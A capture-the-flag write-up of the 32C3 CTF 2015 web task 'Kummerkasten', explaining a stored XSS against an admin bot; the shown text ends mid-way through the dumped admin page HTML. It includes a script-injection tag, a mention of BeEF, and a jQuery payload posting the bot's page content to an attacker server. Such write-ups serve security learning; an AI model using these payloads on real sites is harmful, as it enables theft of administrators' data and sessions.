 #32C3 CTF 2015 : Kummerkasten
Category: Web Points: 300 Solves: 61 Description:

Our Admin is a little sad this time of the year. Maybe you can cheer him up at this site http://136.243.194.46/

Please note: This challenge does not follow the flag format.

Hints:

To build the flag, concatenate both parts and omit '32C3_'

Write-up
by 0xBADCA7

Strangely, this 32c3 CTF task weighted 300 points (while ITD was "only" 150) however it was a simple straightforward XSS. You're given a page like this: 

Your team is nearly arbitrary (just a basic filter) and the injectable field is the message itself. It is possible to inject <script src="yourstuff.js"></script> right away. Clearly, there's a bot reading all the messages so the first thing right off the bat I did was to hook in BeEF. The bot appeared in the logs shortly and then disconnected. I wasn't really disappointed as the original page already contained jQuery code so coding payloads would be a cakewalk.

First I dumped the current page the bot was seeing:

$.post('http://myserver', {'a': btoa($('body')[0].innerHTML)})
The bot returned this:

<script src="js/jquery-2.1.4.min.js"></script>
<script src="js/bootstrap.min.js"></script>
<script src="js/admin.js"></script>

    <nav class="navbar navbar-inverse">
      <div class="container">
        <div class="navbar-header">
          <button type="button" class="navbar-toggle collapsed" data-toggle="collapse" data-target="#navbar" aria-expanded="false" aria-controls="navbar">
            <span class="sr-only">Toggle navigation</span>
            <span class="icon-bar"></span>
            <span class="icon-bar"></span>
            <span class="icon-bar"></span>
          </button>
          <a class="navbar-brand" href="/admin/comments">Admin</a>
        </div>
        <div id="navbar" c
